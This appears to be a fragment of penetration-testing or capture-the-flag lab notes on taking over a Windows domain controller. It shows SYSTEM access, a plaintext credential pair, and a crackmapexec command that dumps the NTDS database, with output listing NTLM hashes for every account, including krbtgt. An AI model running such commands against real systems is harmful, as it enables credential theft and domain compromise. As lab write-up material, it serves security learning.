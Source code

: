 whoami returns: nt authority\system

`cd ..\..\Users\Administrator`

`type flag.txt`

> Ref: https://juggernaut-sec.com/domain-persistence-golden-ticket-and-silver-ticket-attacks/

afisher:alejandro

# NTDS file

`crackmapexec smb 172.140.0.40 -u administrator -p completeSecurePassw0rd --ntds`

```
SMB         172.140.0.40    445    DC01             [*] Windows 10.0 Build 20348 x64 (name:DC01) (domain:xyz.com) (signing:True) (SMBv1:False)
SMB         172.140.0.40    445    DC01             [+] xyz.com\administrator:completeSecurePassw0rd (Pwn3d!)
SMB         172.140.0.40    445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         172.140.0.40    445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:4124f2ac13cbf884c4e0d592846485af:::
SMB         172.140.0.40    445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.140.0.40    445    DC01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:286aa959c8ab2c6dabce150c7b699d25:::
SMB         172.140.0.40    445    DC01             vagrant:1000:aad3b435b51404eeaad3b435b51404ee:4124f2ac13cbf884c4e0d592846485af:::
SMB         172.140.0.40    445    DC01             xyz.com\kpeake:1108:aad3b435b51404eeaad3b435b51404ee:6084ae91972fbeb924a2c906bf57c0ab:::
SMB         172.140.0.40    445    DC01             xyz.com\gchurchill:1109:aad3b435b51404eeaad3b435b51404ee:4339a092b5f8d8289c1314e9f1db9f94:::
SMB         172.140.0.40    445    DC01             xyz.com\jslater:1110:aad3b435b51404eeaad3b435b51404ee:b18ea39a58544b53b43e34200c21d751:::
SMB         172.140.0.40    445    DC01             xyz.com\cbuckland:1111:aad3b435b51404eeaad3b435b51404ee:af5432a79b941528fa7fac9e7e391651:::
SMB         172.140.0.40    445    DC01             xyz.com\ewalsh:1112:aad3b435b51404eeaad3b435b51404ee:b2afd3ee7005887d914650f0d30231c0:::
SMB         172.140.0.40    445    DC01             xyz.com\rkelly:1113:aad3b435b51404eeaad3b435b51404ee:fe9b5105002d720830b2861666851d1b:::
SMB         172.140.0.40    445    DC01             xyz.com\fallan:1114:aad3b435b51404eeaad3b435b51404ee:91d5b3ce10ef251dff59a63f93d34b36:::
SMB         172.140.0.40    445    DC01             xyz.com\jjohnston:1115:aad3b435b51404eeaad3b435b51404ee:6e2ba7aaa0297ecba56e3d90393bc147:::
SMB         172.140.0.40    445    DC01             xyz.com\rbond:1116:aad3b435b51404eeaad3b435b51404ee:70daf8eb7ca45fb508cf24852293609f:::
SMB         172.140.0.40    445    DC01             xyz.com\dhardacre:1117:aad3b435b51404eeaad3b435b51404ee:40d0748f1738f4701024af592dc3756c:::
SMB         172.140.0.40    445    DC01             xyz.com\nmitchell:1118:aad3b435b51404eeaad3b435b51404ee:c52abb1e14677d7ea228fcc1171ed7b7:::
SMB         172.140.0.40    445    DC01             xyz.com\amcgrath:1119:aad3b435b51404eeaad3b435b51404ee:570276986246b42ed08c1044fb6fd1a8:::
SMB         172.140.0.40    445    DC01             DC01$:1001:aad3b435b51404eeaad3b435b51404ee:ee82fb06d0a332342ed3d02037430188:::
SMB         172.140.0.40    445    DC01             http_svc$:1120:aad3b435b51404eeaad3b435b51404ee:9caa9f1a57f1e8959b9cf03c4b6e31f9:::
SMB         172.140.0.40    445    DC01             mssql_svc$:1121:aad3b435b51404eeaad3b435b51404ee:29746486d0a4b86306d63e8b84521882:::
SMB         172.140.0.40    445    DC01             exchange_svc$:1122:aad3b435b51404eeaad3b435b51404ee:7467172e489f15ca013cc9ad03b97ae0:::
SMB         172.140.0.40    445    DC01             [+] Dumped 20 NTDS hashes to /root/.cme/logs/DC01_172.140.0.40_2023-04-24_141454.ntds of which 16 were added to the database
```